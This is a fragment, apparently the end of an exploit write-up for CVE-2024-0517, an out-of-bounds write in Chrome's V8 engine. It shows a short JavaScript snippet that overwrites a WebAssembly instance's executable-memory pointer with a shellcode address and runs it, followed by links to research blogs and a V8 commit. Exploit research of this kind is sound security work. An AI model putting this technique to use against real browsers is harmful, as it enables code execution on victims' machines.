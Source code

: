 ```jsx
let RWX_page_pointer = v8h_read64(wasmInstance_addr+0x48n);

let func_make_array = wasmInstance.exports.make_array;

let func_main = wasmInstance.exports.main;
wasm_write(wasmInstance_addr+0x48n, shell_code_addr);
func_main();
```

## Reference

CW blog - CVE-2024-0517 [https://cwresearchlab.co.kr/entry/CVE-2024-0517-Out-of-Bounds-Write-in-V8](https://cwresearchlab.co.kr/entry/CVE-2024-0517-Out-of-Bounds-Write-in-V8)

Exodus blog - CVE-2024-0517 [https://blog.exodusintel.com/2024/01/19/google-chrome-v8-cve-2024-0517-out-of-bounds-write-code-execution/](https://blog.exodusintel.com/2024/01/19/google-chrome-v8-cve-2024-0517-out-of-bounds-write-code-execution/)

V8 git 12.0.267.15 [https://chromium.googlesource.com/v8/v8.git/+/e73f620c2ef1230ddaa61551706225821a87c3b9](https://chromium.googlesource.com/v8/v8.git/+/e73f620c2ef1230ddaa61551706225821a87c3b9)
